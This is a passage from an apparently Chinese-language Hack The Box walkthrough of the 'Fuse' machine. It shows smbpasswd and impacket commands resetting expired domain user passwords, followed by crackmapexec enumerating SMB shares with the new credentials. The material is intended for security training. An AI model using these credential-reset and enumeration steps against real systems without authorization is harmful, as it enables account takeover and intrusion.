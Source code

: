 ```

tlavel和bhult的密码用smbpasswd把密码改成```Fabricorp02```
```
┌──(root💀kali)-[~/htb/Fuse]
└─# smbpasswd -r 10.10.10.193  tlavel                                                                                                       1 ⨯
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user tlavel on 10.10.10.193.

┌──(root💀kali)-[~/htb/Fuse]
└─# smbpasswd -r 10.10.10.193  bhult                                                                                                        1 ⨯
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user bhult on 10.10.10.193.

```

或者用smbpasswd.py修改smb密码
```
┌──(root💀kali)-[~/htb/Fuse]
└─# python3 /root/impacket-master/examples/smbpasswd.py  fabricorp.local/tlavel:Fabricorp01@10.10.10.193 -newpass 'Fabricorp02'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.

```


再用新密码登录smb,看见已经可以显示分享目录
```
┌──(root💀kali)-[~/htb/Fuse]
└─# crackmapexec smb 10.10.10.193 -u 'tlavel' -p 'Fabricorp02' --shares
SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\tlavel:Fabricorp02 
SMB         10.10.10.193    445    FUSE             [+] Enumerated shares
SMB         10.10.10.193    445    FUSE             Share           Permissions     Remark
SMB         10.10.10.193    445    FUSE             -----           -----------     ------
SMB         10.10.10.193    445    FUSE             ADMIN$                          Remote Admin
SMB         10.10.10.193    445    FUSE             C$                              Default share
SMB         10.10.10.193    445    FUSE             HP-MFT01                        HP-MFT01
SMB         10.10.10.193    445    FUSE             IPC$                            Remote IPC
SMB         10.10.10.193    445    FUSE             NETLOGON        READ            Logon server share 
SMB         10.10.10.193    445    FUSE             print$          READ            Printer Drivers
SMB         10.10.10.193    445    FUSE             SYSVOL          READ            Logon server share 
